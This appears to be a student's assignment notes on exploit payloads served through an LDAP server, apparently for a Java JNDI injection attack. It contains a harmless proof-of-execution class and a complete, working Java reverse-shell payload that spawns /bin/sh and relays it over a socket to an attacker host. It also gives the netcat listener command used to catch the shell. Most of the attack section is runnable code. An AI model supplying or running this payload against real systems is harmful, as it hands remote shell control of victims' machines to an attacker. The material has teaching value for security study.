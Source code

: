 == Exploit Payloads

=== This assignment

For this assignment I am using a very simple payload that just creates a file to show that the exploit has taken place.

--------------------------

import java.io.*;
import java.net.*;
import java.util.concurrent.TimeUnit;

public class Exploit {

    public Exploit() throws Exception {
        try {
            File myFile = new File("/tmp/filename.txt");
            myFile.createNewFile();

            TimeUnit.SECONDS.sleep(8);

            myFile.delete();

        } catch (IOException e) {}

    }
}

--------------------------


=== Reverse shell

This is the example payload that is used for this exploit. Using some Java programming you can open up a reverse shell with ease. To do this yourself you need to change the exploit served by the LDAP server and you need to open up a nc listener.

`nc -lvnp 9001`

`./run.sh reverse_exploit.java`

--------------------------
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {
    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";

        // Spawn a shell
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();

        // Create a websocket
        Socket s=new Socket(host,port);

        // Do some stream redirection between the shell and websocket
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}

--------------------------
